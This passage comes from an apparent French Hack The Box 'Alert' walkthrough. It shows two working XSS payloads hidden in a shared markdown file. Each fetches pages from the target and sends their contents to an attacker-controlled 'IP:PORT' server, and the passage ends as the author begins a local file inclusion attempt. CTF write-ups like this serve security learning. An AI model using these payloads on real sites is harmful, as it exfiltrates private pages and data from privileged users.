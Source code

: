 ```javascript
<script>
fetch("http://alert.htb/")
    .then(response => response.text())
    .then(data => {
    fetch("http://IP:PORT/?data=" + encodeURIComponent(data));
    })
    .catch(error => console.error("Error fetching messages:", error));
</script>
```

Même si rien ne s'affiche lorsque nous visualisons notre fichier, la vérification du code source de la page confirme qu'il est inclus dans la page.

![page source code](/images/HTB-Alert/script_included.png)

Nous utilisons le lien obtenu avec le bouton `Share Markdown` à `/contact`.

![xss payload in contact page](/images/HTB-Alert/XSS_contact.png)

Après avoir envoyé le message, nous recevons une réponse sur notre serveur web.

Nous décodons la réponse codée en URL dans Burp. Son contenu est le fichier html de la page d'accueil.

![home page source code](/images/HTB-Alert/HTML_alert.png)

Une fois de plus, nous modifions le contenu de notre fichier markdown. Cette fois, nous allons essayer d'accéder à `/messages`. Nous utilisons un lien tel que `http://alert.htb/visualizer.php?link_share=xxxxxx.xxxxxx.md` sur la page de contact.

Si l'utilisateur qui exécute notre payload a des privilèges plus élevés, nous pourrions être en mesure de voir le contenu de `/messages`.

```Javascript
<script>
fetch("http://alert.htb/messages.php")
    .then(response => response.text())
    .then(data => {
    fetch("http://IP:PORT/?data=" + encodeURIComponent(data));
    })
    .catch(error => console.error("Error fetching messages:", error));
</script>
```

Sur le serveur web, nous recevons une réponse.

### Inclusion de fichiers locaux (LFI)

En utilisant le décodeur Burp, nous remarquons que la réponse utilise un paramètre `file` à la page `messages.php`.

![file parameter at messages.php](/images/HTB-Alert/file_param.png)

Essayons d'en tirer parti pour exploiter une vulnérabilité LFI.
